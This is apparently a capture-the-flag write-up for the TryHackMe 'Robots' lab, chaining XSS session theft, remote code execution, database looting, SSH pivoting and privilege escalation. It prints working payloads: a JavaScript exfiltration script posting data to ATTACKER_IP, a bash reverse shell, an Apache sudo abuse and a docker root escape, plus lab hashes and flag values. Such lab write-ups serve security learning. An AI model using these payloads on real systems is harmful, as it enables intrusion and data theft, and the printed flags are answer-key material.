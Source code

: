 
# 🤖 TryHackMe: Robots (Hard)

> A web application hacking challenge involving XSS, session hijacking, database exploitation, SSH pivoting, and multi-stage privilege escalation.

---

## 🎯 Objectives

To exploit the Robots machine and get User and Root flag.

---

## 🔧 Tools Used

- `nmap`, `curl`, `ffuf`
- `Python3 HTTP Server`, `nc`
- `MySQL Client`
- `chisel` (port forwarding)
- `ssh`
- `GTFOBins`

---

## 🔍 Scanning & Enumeration

Performed aggressive Nmap scan:

```bash
nmap -A -sV 10.10.151.212
```

Discovered open ports:
- 22/tcp (SSH)
- 80/tcp (HTTP – Apache 2.4.61)
- 9000/tcp (HTTP – Apache 2.4.52)

---

## 📄 Exploring `/robots.txt`

```bash
curl http://10.10.151.212/robots.txt
```

Found:
```
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
```

Added `robots.thm` to `/etc/hosts`.

---

## 🕵️ Web Application Analysis

Discovered:
- XSS vulnerability in username field (login page)
- `PHPSESSID` cookie was HttpOnly (could not directly steal)

Found `/harm/to/self/server_info.php` leaking `phpinfo()` with session data.

---

## 💥 Exploiting XSS to Hijack Session

Payload:
```html
<script src="http://ATTACKER_IP/xs3.js"></script>
```

**xs3.js** script:
```javascript
async function exfil() {
    const response = await fetch('/harm/to/self/server_info.php');
    const text = await response.text();

    await fetch('http://ATTACKER_IP/exfil', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: `data=${btoa(text)}`
    });
}
exfil();
```

- Exfiltrated session ID via listener on port 81
- Base64 decoded the PHPSESSID
- Logged in as admin

---

## 🛠️ Gaining Shell

- Found **admin.php** executing user-provided URLs.
- Hosted `shell.php` on attacker machine.
- Used RCE to get reverse shell back.

---

## 🗄️ Database Looting

- Discovered database credentials in PHP source code.
- Used **chisel** for port forwarding to MySQL.
- Extracted users table containing admin and rgiskard credentials.
- rgiskard : dfb35334bf2a1338fa40e5fbb4ae4753
- admin : 3e3d6c2d540d49b1a11cf74ac5a37233

SSH logged in as `rgiskard`.

---

## 🔥 Privilege Escalation - User to User

Checked `sudo -l`:

```bash
User rgiskard may run the following commands:
(dolivaw) /usr/bin/curl 127.0.0.1/*
```

Used curl to:
- Execute `sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt` for **User Flag**:
```
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```

---

## 🧠 SSH Pivot to `dolivaw`

Generate key using `ssh-keygen -f id_ed25519 -t ed25519`.
Uploaded SSH key by:
```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ATTACKER_IP/id_ed25519.pub -o /home/dolivaw/.ssh/authorized_keys
```

Logged in:
```bash
ssh -i id_ed25519 dolivaw@robots.thm
```

---

## Get Root flag

Checked `sudo -l`:

```bash
User dolivaw may run: /usr/sbin/apache2
```

Used GTFOBins trick:

To read the root flag:
```bash
sudo /usr/sbin/apache2 -C 'Define APACHE_RUN_DIR /tmp' -C 'Include /root/root.txt' -k stop
```

Extracted **Root Flag**:
```
THM{2a279561f5eea907f7617df3982cee24}
```
🏁 Privilege Escalation - Root

Create an cgi.conf:
```
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
LoadModule authz_core_module /usr/lib/apache2/modules/mod_authz_core.so
LoadModule mime_module /usr/lib/apache2/modules/mod_mime.so
LoadModule cgi_module /usr/lib/apache2/modules/mod_cgi.so
LoadModule alias_module /usr/lib/apache2/modules/mod_alias.so

User www-data
Group docker

ServerName localhost
Listen 8080

TypesConfig /etc/mime.types

ScriptAlias /rev /tmp/rev.sh

ErrorLog "/tmp/error.log"
```
and revershell bash
```
/bin/bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```
Start a listener on port 443.

 - Start apache2 `sudo /usr/sbin/apache2 -f /tmp/cgi.conf -k start`.
 - Give permission to rev.sh `chmod 777 /tmp/rev.sh`.
 - to get reverse shell `curl http://127.0.0.1:8080/rev`.
 - We can see that there's docker running using `id` command.

Shell as root:
 - To list images `docker image ls`.
 - To get root `docker run -v /:/mnt --rm -it mariadb sh`.
---

## 📚 What I Learned

- Exploiting HttpOnly cookies indirectly via phpinfo() leaks
- Building realistic XSS exfil scripts
- Chaining session hijack to RCE
- Database dumping through port forwarding
- SSH pivoting between users
- Root escalation via misconfigured sudo permissions on services

---

✅ End of Walkthrough.
